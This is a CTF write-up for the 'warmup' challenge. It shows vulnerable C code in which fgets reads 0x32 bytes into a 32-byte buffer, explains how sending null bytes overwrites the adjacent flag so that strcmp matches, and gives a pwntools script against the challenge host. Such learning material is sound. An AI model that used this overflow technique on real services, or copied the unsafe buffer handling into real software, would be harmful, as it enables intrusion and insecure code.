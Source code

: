 # warmup
17 solves

## Description
Just a warmup. `nc challs.sieberrsec.tech 3476`

```c
#include <stdio.h>
int main() {
    char input[32];
    char flag[32];
    // read flag file
    FILE *f = fopen("flag", "r");
    fgets(flag, 32, f);
    fclose(f);
    // read the user's guess
    fgets(input, 0x32, stdin);
    // if user's guess matches the flag
    if (!strcmp(flag,input)) {
        puts("Predicted!");
        system("cat flag");
    } else puts("Your flag was wrong :(");
}
```

N.B. please do not try to bruteforce the flag. Attempts at doing so will be taken as an attack on server infrastructure, and will leave you liable for disqualification.

## Solution
We did not solve this chall during the ctf. 

```c 
    char input[32];
    char flag[32];
```
the input is declared as 32 bytes, and the flag is declared immediately after. 

the second (free) hint is a link to <https://en.wikipedia.org/wiki/Null-terminated_string>.

> A common bug was to not allocate the additional space for the NUL, so it was written over adjacent memory

The length of the `input` buffer is 32 bytes, but the program reads `0x32` or 50 bytes. So you can overwrite the flag after sending 32 bytes. 

the program also uses `strcmp()`. 
> strcmp() checks for the occurrence of NULL character in string, so that it will termination the function. ([source](https://www.quora.com/Does-STRCMP-check-for-NULL))

The idea is 
```
| input (32 bytes) | flag (32 bytes) |

sending NULL + 31 bytes + NULL

| input (NULL + 31 bytes) | flag (NULL + 31) | 

strcmp() will only read until NULL, and not the rest.
```

a code like this would work 
```python
from pwn import *

context.log_level="debug"

p = remote("challs.sieberrsec.tech", 3476)

#a null byte is b"\x00"
p.sendline(b"\x00"*33)

p.interactive()
```
as long as you send between 33-48 NULL bytes. any shorter will not overwrite the flag and any further would overwrite too much. 

![warmup1.png](warmup1.png)

`IRS{nU1L_t3rminat0r}`

## comments
- Values are on the stack according to where they're declared
- However, sometimes compilers add some "buffer" in between values
- Thus, decompilers etc help

^^thanks sean <br>
warmup chall with 17 solves very haha <br>
thanks sean i understand now 
